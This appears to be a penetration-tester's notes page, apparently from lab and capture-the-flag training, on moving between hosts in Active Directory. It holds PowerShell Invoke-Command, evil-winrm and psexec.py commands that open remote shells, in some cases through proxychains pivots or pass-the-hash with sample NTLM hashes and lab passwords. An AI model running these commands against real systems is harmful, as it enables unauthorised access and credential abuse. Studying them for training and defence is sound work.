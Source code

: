 ```yaml
---
title: "AD: Connecting to other hosts"
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - active
  - directory
  - linux
  - windows
---
```

# AD: Connecting to other hosts

!!! quotes "Resources"
	- [TheHacker.recipes](https://www.thehacker.recipes/ad/movement/dacl/forcechangepassword#forcechangepassword

[Index of Active Directory](active-directory.md)

[Hardening and auditing Active Directory ](hardening-auditing-active-directory.md)

!!! tip "Attacking from linux"
	- [Enumerating Active Directory from Linux](active-directory-from-linux-enumeration.md)
	- [Attacking Active Directory from Linux](active-directory-from-linux-attacks.md)
	- [Lateral Movement in Active Directory from Linux](active-directory-from-linux-lateral-movement.md)
	- [Privileges escalation in Active Directory from Linux](active-directory-from-linux-privilege-escalation.md)

!!! tip "Attacking from Windows"
	- [Enumerating Active Directory from Windows](active-directory-from-windows-enumeration.md)
	- [Active directory: connecting to other hosts](active-directory-connections.md)
	- [Attacking Active Directory from Windows](active-directory-from-windows-attacks.md)
	- [Privileges escalation in Active Directory from Windows](active-directory-from-windows-privilege-escalation.md)

!!! tip "Linux in AD"
	- [Linux in active directory](linux-in-active-directory.md)



## Invoke-Command

Invoke-Command allows the executions of commands in remote hosts. We can use a "nested" Invoke-Command to send credentials (after creating a PSCredential object) with every request. 


```powershell
# 1. Now we will create a Secure-string object with the credential of the user svc_sql. Then we will use Invoke-Command to run a command in the host MS01
# 1. We create a SecureString Object with our creds
$SecPassword = ConvertTo-SecureString '$password' -AsPlainText -Force
# Example: 
# $SecPassword = ConvertTo-SecureString '!qazXSW@' -AsPlainText -Force

$Cred = New-Object System.Management.Automation.PSCredential('$domain\$userSamAccountName', $SecPassword)
# Example:
# $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\backupadm', $SecPassword)

# 2. We send the nested Invoke-Command
Invoke-Command -ComputerName "$hostname.$domainName" -Credential $cred -ScriptBlock { Get-Content "C:\Users\Administrator\Desktop\flag.txt" }
# Example: 
# Invoke-Command -ComputerName "MS01.INLANEFREIGHT.LOCAL" -Credential $cred -ScriptBlock { Get-Content "C:\Users\Administrator\Desktop\flag.txt" }
``` 


## Enter-PSSession


## Evil-Winrm

With a pivot host and chisel + proxychains

```powershell
proxychains evil-winrm -i $ip -u $user -p $password
```

With hashes:

```bash
evil-winrm -i $ip -u Administrator -H "32693b11e6aa90eb43d32c72a07ceea6"
```


## psexec.py

With a pivot host and chisel + proxychains 

```powershell
proxychains tools/impacket/examples/psexec.py INLANEFREIGHT.LOCAL/svc_sql:lucky7@172.16.6.50
```

Passing a hash:

```bash
# An example: 
python3 psexec.py Administrator@$ip -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6

# Another example:
impacket-psexec egotistical-bank.local/administrator@$ip -hashes aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e
```


## mstsc.exe 

